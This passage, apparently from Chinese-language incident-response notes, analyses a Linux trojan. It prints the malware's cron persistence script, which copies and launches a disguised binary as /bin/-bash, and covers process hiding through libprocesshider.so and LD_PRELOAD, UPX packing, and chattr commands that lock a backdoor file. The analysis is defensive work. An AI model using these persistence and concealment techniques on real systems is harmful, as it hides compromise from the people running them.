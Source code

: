 该木马文件创建了大量的隐藏进程从而阻止用户发现并清除，同时创建多个cron文件

定时任务：

`misvnc`

```
#!/bin/bash
cp -f -r -- /bin/hxvin /bin/-bash 2>/dev/null
cd /bin 2>/dev/null
./-bash -c  -pf /tmp/.locker -p 443 -tls  -k -m simple >/dev/null 2>&1
rm -rf -- -bash 2>/dev/null
```

`mail.fpc`

![微信图片_20250615220503](./../_media/微信图片_20250615220503.png)

这些隐藏进程也正是计划任务中所示的，并且二进制分析加了简单的upx壳。







#### /usr/local/lib/libprocesshider.so

这个我懂啊，后门文件里面一些经典的操作：

```
chattr +i evil.php 锁定文件
lsattr  evil.php   属性查看
chattr -i evil.php 解除锁定
rm -rf 1.evil.php  删除文件
```

权限维持篇具体查看https://bypass007.github.io/Emergency-Response-Notes/privilege/%E7%AC%AC3%E7%AF%87%EF%BC%9ALinux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81--%E9%9A%90%E8%97%8F%E7%AF%87.html



libprocesshider.so本来就是进行进程隐藏的利用 LD_PRELOAD 来实现系统函数的劫持。这也是挖矿病毒的常见做法，让用户无法直接查找到进程。







然后攻击者把这个藏了一点东西，但是用的确实前人写的程序，该样本在2019年的微步沙箱有检出
